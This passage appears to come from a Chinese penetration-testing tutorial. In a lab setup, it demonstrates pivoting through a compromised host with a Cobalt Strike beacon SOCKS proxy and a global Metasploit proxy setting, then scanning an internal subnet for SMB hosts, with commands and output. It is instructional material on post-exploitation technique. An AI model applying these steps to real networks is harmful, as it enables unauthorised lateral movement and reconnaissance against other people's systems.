 - 运行以下命令来停止

```
unsetg Proxies
```

setg 命令和 unsetg 表示在 metasploit 中全局有效，不用在每次选择模块后再重新设置。
**演示**
环境说明：
攻击机 IP：192.168.175.200
上线主机：外部IP 192.168.175.130、内部IP 192.168.232.133
攻击目标：192.168.232.0/24 地址段
当前已经上线了一个 IP 为 192.168.175.130 主机，通过 ipconfig 发现，该主机也在 192.168.232.0/24 地址段内。
但当前攻击机无法访问 232 的地址段，因此如果想对 232 段内的主机发起攻击，就可以采用将 192.168.175.130 作为跳板机访问的方式。
1、设置 socks 代理
开启交互模式

```
beacon> sleep 0
[*] Tasked beacon to become interactive
[+] host called home, sent: 16 bytes
```

开启 socks 代理

```
beacon> socks 9527
[+] started SOCKS4a server on: 9527
[+] host called home, sent: 16 bytes
```

以上操作也可以通过图形化的方式进行。
2、Metasploit 中进行设置
开启 Metasploit 后，运行 setg 命令

```
msf5 > setg Proxies socks4:192.168.175.200:9527
Proxies => socks4:192.168.175.200:9527
```

3、扫描 192.168.232.0/24 地址段中的 445 端口
这里作为演示，只扫描一下 445 端口

```
msf5 > use auxiliary/scanner/smb/smb_version msf5 
 
auxiliary(scanner/smb/smb_version) > set rhost 192.168.232.0/24 
rhost => 192.168.232.0/24 
 
msf5 auxiliary(scanner/smb/smb_version) > set threads 64 
threads => 64
 
msf5 auxiliary(scanner/smb/smb_version) > exploit 
use auxiliary/scanner/smb/smb_version  
[*] 192.168.232.0/24:445 - Scanned 44 of 256 hosts (17% complete) 
[*] 192.168.232.0/24:445 - Scanned 64 of 256 hosts (25% complete) 
[*] 192.168.232.0/24:445 - Scanned 110 of 256 hosts (42% complete) 
[*] 192.168.232.0/24:445 - Scanned 111 of 256 hosts (43% complete) 
[*] 192.168.232.0/24:445 - Scanned 128 of 256 hosts (50% complete) 
[+] 192.168.232.133:445 - Host is running Windows 7 Ultimate SP1 (build:7601) (name:WINTEST) (domain:TEAMSSIX) (signatures:optional) 
[+] 192.168.232.132:445 - Host is running Windows 2008 HPC SP1 (build:7601) (name:WINDC) (domain:TEAMSSIX) (signatures:required) 
[*] 192.168.232.0/24:445 - Scanned 165 of 256 hosts (64% complete) 
[*] 192.168.232.0/24:445 - Scanned 184 of 256 hosts (71% complete) 
[*] 192.168.232.0/24:445 - Scanned 220 of 256 hosts (85% complete) 
[*] 192.168.232.0/24:445 - Scanned 249 of 256 hosts (97% complete) 
[*] 192.168.232.0/24:445 - Scanned 256 of 256 hosts (100% complete) 
[*] Auxiliary module execution completed
```